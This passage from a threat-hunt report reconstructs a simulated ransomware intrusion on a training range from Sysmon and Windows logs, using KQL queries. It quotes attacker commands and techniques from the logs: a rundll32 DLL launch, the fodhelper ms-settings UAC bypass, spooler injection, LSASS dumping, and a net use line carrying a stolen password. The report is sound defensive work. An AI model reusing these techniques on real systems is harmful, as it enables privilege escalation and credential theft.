# Hunt 22: Harborlight Dental & Insurance — Full Ransomware Reconstruction


> **Hunt ID:** HUNT-22-HARBORLIGHT (case reference HL-INC-2026-0204)
> **Author:** Tural Aghabalayev, SOC Analyst
> **Environment:** Log(N) Pacific Cyber Range — simulated client, training data
> **Classification:** TLP:AMBER

A full intrusion reconstruction from raw Sysmon and Windows Security logs in Microsoft Sentinel (KQL), with no alert queue to start from. The attack runs from a disk-image phishing lure on a front-office workstation, through UAC bypass, process injection, LSASS and NTDS credential theft, lateral movement to the file server and domain controller, rclone exfiltration to MEGA, recovery destruction and log wiping, to Akira-branded encryption — and C2 access that outlived the ransom notes by more than 13 hours.

---

## Table of Contents

- [01 Front Matter and Document Control](#01-front-matter-and-document-control)
- [02 Executive Summary](#02-executive-summary)
- [03 Overview Metadata](#03-overview-metadata)
- [04 Hypothesis and ABLE Scope](#04-hypothesis-and-able-scope)
- [05 Threat Intel Inputs](#05-threat-intel-inputs)
- [06 Scope, Data Sources and Blind Spots](#06-scope-data-sources-and-blind-spots)
- [07 Execution](#07-execution)
- [08 UTC Timeline](#08-utc-timeline)
- [09 Findings](#09-findings)
- [10 Negative Findings](#10-negative-findings)
- [11 Hypothesis Outcome](#11-hypothesis-outcome)
- [12 ATT&CK Coverage](#12-attck-coverage)
- [13 Detection and Telemetry Gaps](#13-detection-and-telemetry-gaps)
- [14 New Detections Authored](#14-new-detections-authored)
- [15 Handover to IR](#15-handover-to-ir)
- [16 Next-Hunt Leads](#16-next-hunt-leads)
- [17 Appendix A: Full Queries](#17-appendix-a-full-queries)
- [Appendix B: Indicators of Compromise](#appendix-b-indicators-of-compromise)
- [Appendix C: References](#appendix-c-references)

---

## 01 Front Matter and Document Control

| Field | Value |
|---|---|
| Report title | Hunt 22: Harborlight Dental & Insurance, Full Ransomware Reconstruction |
| Hunt ID | HUNT-22-HARBORLIGHT (case reference HL-INC-2026-0204) |
| Author | Tural Aghabalayev, SOC Analyst |
| Version | 1.0 |
| Date issued (UTC) | 2026-10-12 |
| Classification | TLP:AMBER |
| Distribution | Coastal MSP (Marcus Webb, IT Support), Log(N) Pacific Cyber Range |

### Revision history

| Version | Date (UTC) | Author | Change |
|---|---|---|---|
| 0.1 | 2026-10-04 | T. Aghabalayev | Working notes for initial access and the first execution pivot. Lure file and rundll32 command line confirmed on BACKOFFICE-PC1. |
| 0.5 | 2026-10-11 | T. Aghabalayev | Privilege escalation, defense evasion and credential access pivots worked. Screenshots captured for the registry hijack, fodhelper integrity levels, the spoolsv.exe injections and LSASS access. |
| 0.9 | 2026-10-12 | T. Aghabalayev | Lateral movement through encryption worked end to end. Kill chain ordered. C2 lifetime measured per host. |
| 1.0 | 2026-10-12 | T. Aghabalayev | Report assembled. Every grid time converted from portal local time (UTC-5) to UTC and checked against the Sysmon UtcTime field (Figure 7.5). Corrected the C2 dwell figure carried in my flag notes from 8 h 24 m to 13 h 24 m; the original number mixed a local timestamp with a UTC one (7.21). Recorded three places where the hunt reference text and the telemetry disagree (7.24). Added detections D1 to D12. |

---

## 02 Executive Summary

Harborlight Dental & Insurance is a small practice. Its IT is run by Coastal MSP, a five-person contractor with no security operations centre and no alerting, so nobody saw this attack while it happened. Staff found ransom notes in the shared folders on the morning of 4 February 2026 and reported it. This report rebuilds the whole intrusion from the raw Sysmon and Windows Security logs.

On 4 February at 01:59 UTC (8:59 PM the evening before, local time), a front-office employee, Emily Grant, opened a file made to look like a vendor invoice. Inside was a disk image carrying a hidden program, and that program started running in her session. Over the next three and a half hours the attacker took over all three of Harborlight's computers: her workstation (BACKOFFICE-PC1), the file server (HL-FS01) and the domain controller (ADDC01), which is the server that manages every account and password in the office.

The attacker raised their rights on the workstation without triggering a Windows prompt, hid inside the Print Spooler service, and pulled Emily Grant's password (`Dental2024!`) out of memory. They used it to reach the file server, and used the file server to reach the domain controller. From there they copied the domain's full password database. They sent the contents of the shared drive, `C:\Shares`, to a MEGA cloud storage account registered to `jwilson.vhr@proton.me`, using a copy of the rclone transfer tool renamed to look like Microsoft Defender. They then destroyed the file server's shadow copies, backup catalogue and boot recovery settings, created a new administrator account (`svc_sql`) and added it to Domain Admins, encrypted files and left 128 ransom notes branded "Akira".

The attacker also wiped the Windows event logs on all three machines, three times on some of them. This did not erase the evidence. The logs had already been forwarded to the central workspace used for this hunt, so every step before and after the wipes is still visible.

**The incident is not contained.** Three hidden programs, one on each machine, kept calling out to the attacker's server long after the ransom notes appeared. The last call in the data came from the domain controller at 18:47 UTC on 4 February, more than 13 hours after encryption and after staff had already reported the incident. Until those programs are removed, the `svc_sql` account is deleted, and every password in the domain is reset (including the krbtgt account, twice), the attacker should be treated as still having access. Because patient and insurance files left the network, this should also be handled as a likely health data breach.

---

## 03 Overview Metadata

| Field | Value |
|---|---|
| Hunt type | Hypothesis-driven, full reconstruction from raw telemetry (no alert queue) |
| Trigger | Ransom notes found in shared folders by staff on the morning of 2026-02-04 and reported cold to Coastal MSP; nothing paged |
| Period hunted (UTC) | Full `HarborlightDental_CL` table (portal range Last 90 days). Attacker activity falls between 2026-02-04 01:59:02 and 2026-02-04 18:47:29 |
| Estate in scope | BACKOFFICE-PC1 (workstation, user Emily.Grant), HL-FS01 (file server, 172.16.0.8), ADDC01 (domain controller, 172.16.0.7). Domain HARBORLIGHT (Harborlight.local) |
| Analyst(s) | Tural Aghabalayev |
| Time spent | Hunt sessions 2026-10-04, 2026-10-10, 2026-10-11 and 2026-10-12 |

**Environment topology.** Three Windows hosts sit on one flat LAN, 172.16.0.0/24, with no segmentation between them. BACKOFFICE-PC1 is Emily Grant's front-office workstation; her account is not a local administrator anywhere and has no business on the file server outside her department share, or on the domain controller at all. HL-FS01 (172.16.0.8) holds the shared drives under `C:\Shares`. ADDC01 (172.16.0.7) is the only domain controller. Coastal MSP holds the only legitimate domain admin credentials. Daily business runs on a practice-management system, an insurance-claims clearinghouse portal and Microsoft 365, so admin tools such as ntdsutil, wevtutil, vssadmin or `net user /add` have no baseline use by staff. The only external infrastructure seen in the data is `cdn.cloud-endpoint.net`, resolving to 172.67.174.46 and 104.21.30.237, and the MEGA remote named in the rclone command line. No other host appears in the table.



---

## 04 Hypothesis and ABLE Scope

**Hypothesis:** An external actor gained a foothold on BACKOFFICE-PC1 through a user-opened lure, escalated locally, harvested a domain credential, moved laterally to HL-FS01 and ADDC01, stole data from the file server and the domain database, and deployed ransomware, while setting up access that would survive the visible ransom event.

**ABLE scope:**

| Dimension | Value |
|---|---|
| Actor | External, unattributed. Ransom note and file extension carry the Akira brand. No attacker source IP inside the LAN; command and control through `cdn.cloud-endpoint.net` |
| Behaviour | Lure delivery and user execution, DLL execution through rundll32, process injection, UAC bypass, LSASS credential theft, SMB and WMI lateral movement, NTDS extraction, event log clearing, cloud exfiltration, recovery inhibition, backdoor persistence, domain account creation, encryption |
| Location | BACKOFFICE-PC1, HL-FS01, ADDC01; user profile and `C:\Users\Public`, `C:\ProgramData\Microsoft`, `C:\Shares`, `C:\Windows\Temp\ntds`, HKU ms-settings handler, Domain Admins group |
| Evidence | `HarborlightDental_CL`: Sysmon EventIDs 1, 3, 8, 10, 11, 13, 22 and Windows Security EventCodes 4720, 4728, 5379 |

**Counter-hypothesis 1:** The frequent Credential Manager reads on BACKOFFICE-PC1 (EventCode 5379) are the credential theft. Tested in 7.8 by checking whether the reads exist outside the attack window. **Result: rejected**, they are background noise.

**Counter-hypothesis 2:** The taskhostw.exe activity is the legitimate Windows Task Host. Tested in 7.5 by comparing the image path across all three hosts. **Result: rejected** for the `C:\Users\Public` copy; the System32 copy is baseline.

**Counter-hypothesis 3:** The attack ended when the ransom notes landed, around 05:23 UTC. Tested in 7.21 by measuring first and last callbacks per host. **Result: rejected.** Callbacks continue to 18:47:29 UTC.

---

## 05 Threat Intel Inputs

| Input | Source | How it shaped the hunt |
|---|---|---|
| Engagement brief HL-INC-2026-0204 | Coastal MSP via Log(N) Pacific Cyber Range, Hunt 22 | Defined the three hosts, the flat network and the client baseline. Stated that Emily.Grant has no reason to touch HL-FS01 or ADDC01, and that privileged activity not traceable to an MSP session is out of baseline. That baseline is what separates attacker activity from house noise throughout section 07 |
| Data dictionary and table notes | Hunt brief | Directed every query to use `EventTime` (not `TimeGenerated` or `SystemTime`) and to match hosts with `has`, because the host field carries the `.Harborlight.local` suffix. Warned that network visibility is Sysmon per-process only |
| Akira ransomware reporting | CISA #StopRansomware advisory AA24-109A | Akira operators are reported to use double extortion, credential dumping, rclone for exfiltration and shadow copy deletion before encryption. Used as a checklist of what to look for after the encryption artefacts were confirmed, not as attribution |

**Intel limitations:** the brief gave no IOCs, no attacker IPs and no malware names. Everything in this report came from the telemetry. The Akira name comes only from the note filename and the `.akira` extension, which any operator can copy, so this report makes no claim about which group was behind it (**Confidence in attribution: Low**).

---

## 06 Scope, Data Sources and Blind Spots

| Data source | Platform | Period available | Coverage confidence |
|---|---|---|---|
| `HarborlightDental_CL`, Sysmon EventID 1 (process creation) | Microsoft Sentinel (KQL), workspace LAW-SilentCorridor | Full window | **High.** Image, ParentImage, CommandLine and IntegrityLevel on all three hosts. This carried most of the reconstruction |
| `HarborlightDental_CL`, Sysmon EventID 3 and 22 (network, DNS) | Microsoft Sentinel (KQL) | Full window | **Medium.** Per-process connections and DNS answers only. No bytes transferred, no TLS SNI, no HTTP host header |
| `HarborlightDental_CL`, Sysmon EventID 8 and 10 (remote thread, process access) | Microsoft Sentinel (KQL) | Full window | **High** for source, target and access mask. Source and target paths live in `EventData_Xml` and must be extracted |
| `HarborlightDental_CL`, Sysmon EventID 11 and 13 (file create, registry) | Microsoft Sentinel (KQL) | Full window | **Medium.** Captured the lure, the backdoor drops, the ransom notes and the ms-settings hijack. No file hashes were queried |
| `HarborlightDental_CL`, Windows Security (4720, 4728, 5379) | Microsoft Sentinel (KQL) | Full window | **Medium.** Account creation and group change are present. The local Security channel was cleared on every host, but the forwarded copy survived (Blind Spot 3) |

### Blind spots

1. **Network content.** There is no packet capture, Zeek or Suricata. How much data reached MEGA, and what the C2 channel carried, cannot be measured. The exfiltration is proven by command line, not by bytes on the wire.
2. **Delivery channel.** The table starts at the file landing on disk. Whether the archive came by email, web download or something else is not visible. Phishing is the most likely route given the invoice theme and the Downloads path (Confidence: Medium).
3. **Local log clearing.** wevtutil cleared the Security, System, Application, Setup and up to 12 other channels on each host. The events in this table were forwarded before the wipes, so the reconstruction is intact, but anything that only existed locally after the last wipe is gone.
4. **How the backdoors persist.** The three backdoor binaries are identified, but the autostart mechanism for each (Run key, service or scheduled task) was not queried. They kept beaconing for hours, so some form of persistence or a long-running process is certain; the mechanism is not established.
5. **Truncated grid values.** Some screenshots cut the seconds off `EventTime` (for example `9:49:4…`). Where that happens this report gives the time to the minute and says so.
6. **Portal time zone.** The Advanced hunting grid displays `EventTime` in the browser's local zone, UTC-5. Every time in this report has been converted to UTC. The conversion was checked against the `UtcTime` field inside `EventData_Xml`: the grid shows 9:42:39 PM and `UtcTime` shows 2026-02-04 02:42:39 for the same fodhelper.exe event (Figure 7.5).

**Workspace scoping.** All queries filter on `EventTime` only. `TimeGenerated` is ingestion time and `SystemTime` is blank on many rows, so neither was used for ordering. Host filters use `has` because the host field includes the domain suffix. `EventID` is stored as a string in this table, so most queries compare `tostring(EventID)`. Screenshots show local time (UTC-5) as explained above; captions give the UTC value.

---

## 07 Execution

Each pivot shows the query as I ran it. Full query text is in [Appendix A](#17-appendix-a-full-queries). Times are UTC.

### 7.1 Pivot: What landed on the workstation

**Question:** What file arrives on BACKOFFICE-PC1 first, and in whose session?

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where EventID == "11"
| where TargetFilename matches regex @"(?i)\.(zip|rar|7z|iso|img)$"
| project EventTime, Image, TargetFilename, Account_Name, SubjectUserName, TargetUserName
| order by EventTime asc
```

**Returned:** Three file-create rows.
- 2026-02-04 01:59:02, `C:\Program Files\7-Zip\7zG.exe` writes `C:\Users\emily.grant\Downloads\Vendor_Invoice_Review\Vendor_Invoice_Review.iso`.
- 02:24:52, `7zG.exe` writes `C:\Users\emily.grant\Downloads\Harborlight_Insurance_Claims\Harborlight_Insurance_Claims.iso`.
- 02:59:35, `c:\windows\system32\notepad.exe` writes `C:\Users\Public\20260203185934_recon.zip`.

**Read:** The ISO was extracted from an archive by 7-Zip's GUI (7zG.exe), which means a person double-clicked it inside her Downloads folder. The account is emily.grant, taken from the profile path. Wrapping an ISO inside an archive is a known way to avoid the Mark of the Web, because files inside a mounted ISO do not inherit the download flag (Confidence: Medium; the zone identifier itself is not in this table). The second lure, 25 minutes 50 seconds later, uses the company's own name, which tells me the attacker already knew who they were targeting. The third row is not a lure. notepad.exe has no reason to write a zip to `C:\Users\Public`; it is the injected process from 7.3 staging its reconnaissance output (see 7.10).


*Figure 7.1: A1 output. File-create events for archive and disk-image extensions on BACKOFFICE-PC1. Grid times are local (UTC-5): 8:59:02 PM = 01:59:02 UTC, 9:24:52 PM = 02:24:52 UTC, 9:59:35 PM = 02:59:35 UTC.*

### 7.2 Pivot: What runs once the ISO mounts

**Question:** Does the ISO actually execute anything, and what?

```kql
let LureTime = toscalar(
    HarborlightDental_CL
    | where host has "BACKOFFICE-PC1"
    | where TargetFilename endswith @"Vendor_Invoice_Review.iso"
    | summarize min(EventTime));
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "1"
| where EventTime between (LureTime .. LureTime + 10m)
| project EventTime, Image, ParentImage, CommandLine, ParentCommandLine, IntegrityLevel
| order by EventTime asc
```

**Returned:** Three process creations in the ten minutes after the ISO landed. One is `MicrosoftEdgeUpdate.exe /ua /installsource scheduler` with parent svchost.exe. The other two are identical: `"C:\Windows\System32\rundll32.exe" D:\review.dll,StartW`, parent `C:\Windows\explorer.exe`.

**Read:** The ISO mounted as drive D: and review.dll was loaded through its StartW export by rundll32, a signed Windows binary. The parent is explorer.exe, so this was a user double-click, not a script. The EdgeUpdate row is a scheduled updater with a svchost parent, normal on any Windows workstation, and is excluded as noise. StartW is the default export name of a Cobalt Strike style DLL beacon, but nothing else in the data names a framework, so I am not claiming one (Confidence: Low).

**Second lure:** The same command line, `rundll32.exe D:\review.dll,StartW`, runs again right after Harborlight_Insurance_Claims.iso is extracted at 02:24:52 (A3). The second ISO carries the same DLL. It is not a new malware family; it is a second chance at the same foothold in case the first was closed. The first callback from BACKOFFICE-PC1 to the C2 addresses comes 16 seconds later, at 02:25:08 (Figure 7.21). Which process made that callback is not shown by the IP-based query, so tying it to the second run is an inference from timing (Confidence: Medium).


*Figure 7.2: A2 output (ParentImage and CommandLine columns). The two rundll32 executions of D:\review.dll,StartW from explorer.exe, and the EdgeUpdate scheduler row that is baseline noise.*

### 7.3 Pivot: What the payload hides inside

**Question:** Right after execution, what does rundll32.exe open, and with what rights?

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "10"
| extend SourceImage = extract(@"<Data Name='SourceImage'>([^<]+)", 1, EventData_Xml)
| extend TargetImage = extract(@"<Data Name='TargetImage'>([^<]+)", 1, EventData_Xml)
| extend SourceUser  = extract(@"<Data Name='SourceUser'>([^<]+)", 1, EventData_Xml)
| extend TargetUser  = extract(@"<Data Name='TargetUser'>([^<]+)", 1, EventData_Xml)
| extend Access      = extract(@"<Data Name='GrantedAccess'>([^<]+)", 1, EventData_Xml)
| where SourceImage endswith @"\rundll32.exe"
| project EventTime, SourceImage, TargetImage, SourceUser, TargetUser, Access
| order by EventTime asc
```

**Returned:** Eleven rows, all `HARBORLIGHT\Emily.Grant` to `HARBORLIGHT\Emily.Grant`, all with access `0x1fffff`. notepad.exe at 02:32:48, 02:32:59, 02:34:56 and 02:35:45. reg.exe at 02:40:41, 02:40:52 and 02:42:08. fodhelper.exe at 02:42:11. cmd.exe at 02:42:39, 05:17:32 and 05:18:21.

**Read:** rundll32 opened notepad.exe four times with full access before it did anything else. That is process injection: the payload moves into a process nobody would question on a front-office PC. The rest of the list is a map of what the implant did next. reg.exe at 02:40 and 02:42 lines up exactly with the registry hijack in 7.4, fodhelper.exe at 02:42:11 with the first UAC bypass attempt, and cmd.exe at 02:42:39 with the second. The last two rows matter later: rundll32 opens cmd.exe at 05:17:32, three seconds before the 16-channel log wipe on this host starts at 05:17:35 (7.13). The original implant was still alive more than three hours after it started.


*Figure 7.3: A4 output. Process-access events where rundll32.exe is the source. Grid shows local time; 9:32:48 PM = 02:32:48 UTC and Feb 4 12:17:32 AM = 05:17:32 UTC.*

### 7.4 Pivot: UAC bypass through the ms-settings handler

**Question:** How does the attacker get a high-integrity process without a UAC prompt?

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "13"
| where TargetObject contains "ms-settings"
| project EventTime, Image, TargetObject, Details
| order by EventTime asc
```

**Returned:** Three registry writes by `C:\Windows\system32\reg.exe`. Two at 02:40:4x and 02:40:5x set `HKU\S-1-5-21-3792733513-337468670-578946671-1133_Classes\ms-settings\shell\open\command\(Default)` to `C:\Users\Public\taskhostw.exe`. One at 02:42:0x sets `...\ms-settings\shell\open\command\DelegateExecute` to `(Empty)`. Seconds are truncated in the grid; the process-access rows in Figure 7.3 put the reg.exe launches at 02:40:41, 02:40:52 and 02:42:08.

**Read:** This is the fodhelper.exe bypass. fodhelper auto-elevates without a prompt and, when it starts, reads the ms-settings open command from the current user's hive. Pointing that key at `C:\Users\Public\taskhostw.exe`, with an empty DelegateExecute value, makes Windows launch the attacker's binary at high integrity. The key sits under Emily Grant's own SID (RID 1133), so a standard user could write it. The binary name copies the real Windows Task Host, which is why 7.5 was needed.


*Figure 7.4: A5 output. reg.exe writes to the ms-settings shell\open\command key under Emily Grant's SID, pointing it at C:\Users\Public\taskhostw.exe.*

### 7.5 Pivot: Which UAC bypass attempt worked, and is taskhostw.exe real?

**Question:** fodhelper.exe runs more than once. Which run reached high integrity? And how is the attacker's taskhostw.exe told apart from the real one?

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "1"
| where Image endswith @"\fodhelper.exe"
| extend ProcessId = extract(@"<Data Name='ProcessId'>([^<]+)", 1, EventData_Xml)
| extend UtcTime   = extract(@"<Data Name='UtcTime'>([^<]+)", 1, EventData_Xml)
| project EventTime, UtcTime, Image, IntegrityLevel, ProcessId, ParentImage, CommandLine
| order by EventTime asc
```

**Returned:** Four fodhelper.exe starts. 02:42:11.000, PID 10936, parent rundll32.exe, Medium. Then three at 02:42:39 with parent cmd.exe: PID 12060 (.363) Medium, PID 10872 (.552) Medium, PID 9280 (.753) **High**.

**Read:** The first attempt at 02:42:11 ran fodhelper straight from rundll32 and stayed at Medium. It failed, most likely because the DelegateExecute value was only written at 02:42:08 and the handler was not complete yet (Confidence: Medium). The attacker then fired three runs through cmd.exe 28 seconds later, and one of them, PID 9280 at 02:42:39.753, reached High. That is the run that elevated. Checking IntegrityLevel, not just the presence of fodhelper, is what separates the attempt from the success.

**Baseline separation (taskhostw.exe):** taskhostw.exe runs constantly on all three hosts, from before the attack and all the way through it (A7). The legitimate copy always runs from `C:\Windows\System32\taskhostw.exe`. The attacker's copy runs from `C:\Users\Public\taskhostw.exe`. The file name is identical; the full Image path is the only reliable discriminator, and every detection in section 14 that touches this binary keys on the path.


*Figure 7.5: A6 output. The four fodhelper.exe starts. The EventTime column (local, 9:42:39 PM) and the UtcTime column (02:42:39) on the same rows confirm the UTC-5 offset used throughout this report. Only PID 9280 reaches High.*

### 7.6 Pivot: How spoolsv.exe becomes the attacker

**Question:** Why does the Print Spooler start running attacker commands, and on how many hosts?

```kql
HarborlightDental_CL
| where tostring(EventID) == "8"
| extend SourceImage = extract(@"<Data Name='SourceImage'>([^<]+)", 1, EventData_Xml)
| extend TargetImage = extract(@"<Data Name='TargetImage'>([^<]+)", 1, EventData_Xml)
| where SourceImage contains "taskhostw.exe" or TargetImage contains "spoolsv.exe"
| project EventTime, host, SourceImage, TargetImage, EventData_Xml
| order by EventTime asc
```

**Returned:** Four CreateRemoteThread events, all `C:\Users\Public\taskhostw.exe` into `C:\Windows\System32\spoolsv.exe`, each tagged by Sysmon with `technique_id=T1055`. BACKOFFICE-PC1 at 02:47 and 03:31, HL-FS01 at 04:26, ADDC01 at 04:34 (minutes only; seconds truncated in the grid).

**Read:** The elevated taskhostw.exe injects into spoolsv.exe, a service that runs as SYSTEM on every Windows machine. From this point on, the attacker's commands show `ParentImage = spoolsv.exe`: the net use with the stolen password (7.9), the second ntdsutil run (7.12) and the svc_sql account creation (7.22). The same injection repeats on each host the attacker reaches, so the playbook is the same everywhere: drop taskhostw.exe in `C:\Users\Public`, inject the spooler, work from SYSTEM. Anyone triaging this by process name would see "Print Spooler" and move on.


*Figure 7.6: A8 output. taskhostw.exe (C:\Users\Public) injecting into spoolsv.exe on BACKOFFICE-PC1 (9:47 PM and 10:31 PM local), HL-FS01 (11:26 PM) and ADDC01 (11:34 PM). UTC: 02:47, 03:31, 04:26, 04:34.*

### 7.7 Pivot: Who touches LSASS

**Question:** Between the elevation and the first use of a stolen password, which process reads credential memory, and with what access?

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "10"
| extend SourceImage = extract(@"<Data Name='SourceImage'>([^<]+)", 1, EventData_Xml)
| extend TargetImage = extract(@"<Data Name='TargetImage'>([^<]+)", 1, EventData_Xml)
| extend Access      = extract(@"<Data Name='GrantedAccess'>([^<]+)", 1, EventData_Xml)
| where TargetImage endswith @"\lsass.exe"
| project EventTime, SourceImage, TargetImage, Access
| order by EventTime asc
```

**Returned:** Seven process-access events against lsass.exe. SearchIndexer.exe at 02:35 and 02:37 with `0x21410`. spoolsv.exe at 02:49 (`0x1410`), 02:49 (`0x1fffff`) and 02:50 (`0x1fffff`). `C:\Users\Public\taskhostw.exe` at 03:31 (`0x1fffff`) and 03:31 (`0x1410`).

**Read:** spoolsv.exe, two minutes after it was injected, opens LSASS with `0x1fffff`, which is PROCESS_ALL_ACCESS: full read, write and execute rights over the process that caches logon credentials. The Print Spooler has no reason to ask for that. A second dump follows at 03:31 straight from taskhostw.exe, right after the second spooler injection on this host. This is where Emily Grant's password came from (Confidence: High; the password is first used 3 minutes later, 7.9).

**Baseline separation:** SearchIndexer.exe also touches LSASS, at 02:35 and 02:37, but with `0x21410`, a limited query mask that Windows Search uses routinely. It is not credential theft. The discriminator is the combination of SourceImage and GrantedAccess: only spoolsv.exe and the Public taskhostw.exe request `0x1fffff`.


*Figure 7.7: A9 output. LSASS access on BACKOFFICE-PC1. SearchIndexer.exe at 0x21410 is baseline; spoolsv.exe and C:\Users\Public\taskhostw.exe at 0x1fffff are the dumps.*

### 7.8 Pivot: Credential Manager reads, real or noise?

**Question:** BACKOFFICE-PC1 logs a lot of EventCode 5379 (Credential Manager credentials were read). Is that the theft?

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1" and EventCode == 5379
| summarize count() by bin(EventTime, 1h)
```

**Returned:** 268 events, present before, during and after the attack window rather than clustered around it. (Result recorded in my notes; screenshot not retained.)

**Read:** Noise. 5379 fires whenever Windows or an application reads a saved credential, and it was firing at the same rate before the attacker existed on this host. Counter-hypothesis 1 is rejected. The theft is the LSASS access in 7.7, which is a different event type entirely.

### 7.9 Pivot: First use of the stolen credential

**Question:** Where does Emily Grant's password first show up in use, and where does it go?

```kql
HarborlightDental_CL
| where host has "BACKOFFICE-PC1"
| where tostring(EventID) == "1"
| where CommandLine has_any ("net use", "/user:", "username", "password", "cmdkey", "psexec", "wmic")
| project EventTime, Image, ParentImage, CommandLine
| order by EventTime asc
```

**Returned:** One row. 2026-02-04 03:34:09, `C:\Windows\System32\net.exe`, parent `C:\Windows\System32\spoolsv.exe`, command line `net use Z: \\172.16.0.8\C$ /user:HARBORLIGHT\Emily.Grant Dental2024!`

**Read:** The password is `Dental2024!`, and it is typed in plaintext on the command line. The command maps the administrative C$ share of the file server, which a front-office account has no business opening, and the parent is the hijacked spooler. This is the moment the stolen credential leaves the workstation.

